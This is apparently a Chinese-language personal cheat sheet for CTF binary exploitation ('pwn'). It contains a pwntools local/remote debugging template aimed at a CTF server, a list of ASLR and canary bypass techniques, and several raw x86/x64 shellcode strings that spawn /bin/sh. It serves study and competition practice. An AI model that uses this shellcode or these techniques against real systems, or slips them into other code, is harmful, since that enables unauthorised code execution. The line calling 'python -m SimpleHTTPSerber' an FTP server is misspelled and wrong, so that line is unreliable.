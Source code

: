 # 鶸的PWN小结
P.S.实在太菜，所以都很基础，慢慢维护
## 快速开启ftp服务器

```
python -m SimpleHTTPSerber
```
会在当前运行目录下开启ftp服务
## PWNTool 远程/本地调试模板

```python
#!/usr/bin/env python2
# coding:utf-8
from pwn import *
import os

VERBOSE = 1
DEBUG   = 1
LOCAL   = 1
PIE     = 1

target = 'memo_note'
libc   = []         # 加载指定libc
break_points = []
remote_addr = '39.107.33.43'
remote_port = 13572


if libc:
    elf = ELF(libc[0])
    gadget = lambda x: next(elf.search(asm(x, os='linux', arch='amd64')))

if LOCAL:
    if libc:
        for libc_ in libc:
            os.environ['LD_PRELOAD'] = os.environ['PWD'] + '/' + libc_ + ':'
    p = process('./'+target)
    if DEBUG:
        out =  'gdb attach ' + str(pwnlib.util.proc.pidof(target)[0])
        base = 0
        if PIE:
            print p.pid
            base =int(os.popen("pmap {}|awk '{{print $1}}'".format(p.pid)).readlines()[1],16)
        for bp in break_points:
            out += " -ex 'b *{}'".format(hex(bp+base))
        raw_input(out+" -ex 'c'\n" if break_points else out+"\n")
else:
    p = remote(remote_addr,remote_port)

```

## Return to dl_resolve

http://pwn4.fun/2016/11/09/Return-to-dl-resolve/
这个写的比较清楚
## shellcraft
编写shellcode

## linux保护机制的绕过方法

现代栈溢出利用技术基础：ROP

利用signal机制的ROP技术：SROP

没有binary怎么办：BROP 、dump bin

劫持栈指针：stack pivot

利用动态链接绕过ASLR：ret2dl resolve、fake linkmap

利用地址低12bit绕过ASLR：Partial Overwrite

绕过stack canary：改写指针与局部变量、leak canary、overwrite canary

溢出位数不够怎么办：覆盖ebp，Partial Overwrite

现代栈溢出利用技术基础:ROP

## 23字节shellcode
搜索地址【http://shell-storm.org/online/Online-Assembler-and-Disassembler/】
```
char *shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

```

"\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
## 19字节shellcode（x64）
“\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05”
## shellcode(x86)
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
## IDA keypatch问题相关

https://github.com/keystone-engine/keypatch/issues/28

## pwn常用工具整理及简单用法
### 逆向分析
IDA7.0
IDA keypatch:https://github.com/keystone-engine/keypatch

### 动态调试
gdb-peda
### exp编写
pwntools
ELF函数：
```
libc = ELF("./libc.so.6")
sh_loc = libc.search('/bin/sh').next() #查找字符串在elf中的地址
sys_loc = libc.symbols['system'] #查找函数在elf中的地址
```

### ROP编写
ROPchains
ropper


